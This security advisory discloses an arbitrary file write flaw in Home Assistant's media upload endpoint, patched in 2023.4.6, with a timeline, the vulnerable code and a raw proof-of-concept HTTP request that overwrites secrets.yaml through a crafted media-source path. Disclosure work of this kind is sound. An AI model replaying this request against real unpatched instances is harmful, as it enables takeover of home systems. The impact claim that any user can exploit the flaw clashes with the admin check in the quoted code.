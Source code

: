 # Introduction

This write-up describes a vulnerability found in [Home Assistant](https://www.home-assistant.io/), a popular open source home automation software. The vulnerability was found to affect versions before 2023.4.6 where a patch is introduced.

# Overview

In the [Media Source integration](https://www.home-assistant.io/integrations/media_source/), files can be uploaded and local/external media sources can be defined. A vulnerability was found in the upload functionality allowing an authenticated attacker to write arbitrary content to any location on the system.

# Timeline

- **20/04/2023** - We discover the vulnerability
- **21/04/2023** - Vulnerability report sent to Home Assistant developers
- **21/04/2023** - Home Assistant replies later that night, noting that a [patch](https://github.com/home-assistant/core/pull/91817) was made
- **22/04/2023** - Home Assistant 2023.4.6 is released, containing the patch which fixes the issue
- **10/05/2023** - Public release of this advisory

# Description

Handling of media_source uploads is found in [local_source.py](https://github.com/home-assistant/core/blob/ca1a12898cbf4f8218351d1d98c7ac44d34ced8e/homeassistant/components/media_source/local_source.py#L266), where initially the user controlled `media_content_id` is parsed and converted into `location` and `source_dir_id`:

```py
    async def post(self, request: web.Request) -> web.Response:
        """Handle upload."""
        if not request["hass_user"].is_admin:
            raise Unauthorized()

        # Increase max payload
        request._client_max_size = MAX_UPLOAD_SIZE  # pylint: disable=protected-access

        try:
            data = self.schema(dict(await request.post()))
        except vol.Invalid as err:
            LOGGER.error("Received invalid upload data: %s", err)
            raise web.HTTPBadRequest() from err

        try:
            item = MediaSourceItem.from_uri(self.hass, data["media_content_id"], None)
        except ValueError as err:
            LOGGER.error("Received invalid upload data: %s", err)
            raise web.HTTPBadRequest() from err

        try:
            source_dir_id, location = self.source.async_parse_identifier(item)
        except Unresolvable as err:
            LOGGER.error("Invalid local source ID")
            raise web.HTTPBadRequest() from err

        uploaded_file: FileField = data["file"]

        if not uploaded_file.content_type.startswith(("image/", "video/", "audio/")):
            LOGGER.error("Content type not allowed")
            raise vol.Invalid("Only images and video are allowed")

        try:
            raise_if_invalid_filename(uploaded_file.filename)
        except ValueError as err:
            LOGGER.error("Invalid filename")
            raise web.HTTPBadRequest() from err

        try:
            await self.hass.async_add_executor_job(
                self._move_file,
                self.source.async_full_path(source_dir_id, location),
                uploaded_file,
            )
        except ValueError as err:
            LOGGER.error("Moving upload failed: %s", err)
            raise web.HTTPBadRequest() from err

        return self.json(
            {"media_content_id": f"{data['media_content_id']}/{uploaded_file.filename}"}
        )

```


`location` and `source_dir_id` is then sent to the [`_move_file`](https://github.com/home-assistant/core/blob/ca1a12898cbf4f8218351d1d98c7ac44d34ced8e/homeassistant/components/media_source/local_source.py#L303) function where the `path` value is directly referenced by the `open` function when writing to a file:

```py
    def _move_file(self, target_dir: Path, uploaded_file: FileField) -> None:
        """Move file to target."""
        if not target_dir.is_dir():
            raise ValueError("Target is not an existing directory")

        target_path = target_dir / uploaded_file.filename

        target_path.relative_to(target_dir)
        raise_if_invalid_path(str(target_path))

        with target_path.open("wb") as target_fp:
            shutil.copyfileobj(uploaded_file.file, target_fp)
```

# Proof of Concept

The `async_parse_identifier` constraints can be satisfied by providing a crafted `media-source://` URI such as:
`media-source://media_source/local///config/` for the `media_content_id` parameter. An example POST request that will write the value `some_password=meow` to the `/config/secrets.yml` file looks like this:

```
POST /api/media_source/local_source/upload HTTP/1.1
Host: 192.168.1.208:8123
Content-Length: 355
authorization: Bearer TOKENREMOVED
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfDWn53ZQOPUigu73
Accept: */*
Origin: http://192.168.1.208:8123
Referer: http://192.168.1.208:8123/media-browser/browser/app%2Cmedia-source%3A%2F%2Fmedia_source
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryfDWn53ZQOPUigu73
Content-Disposition: form-data; name="media_content_id"

media-source://media_source/local///config/
------WebKitFormBoundaryfDWn53ZQOPUigu73
Content-Disposition: form-data; name="file"; filename="secrets.yaml"
Content-Type: image/text/html

some_password=meow
------WebKitFormBoundaryfDWn53ZQOPUigu73--
```

# Impact

An authenticated user (of any privilege) will be able to write to any file on disk as the instance is running as root. This includes all system files, along with configuration files related directly to HA such as the `secrets.yaml` or other configuration files. This could lead to compromise of the entire instance or hosting infrastructure.

# Discovered

- April 2023, Victor Kahan, elttam
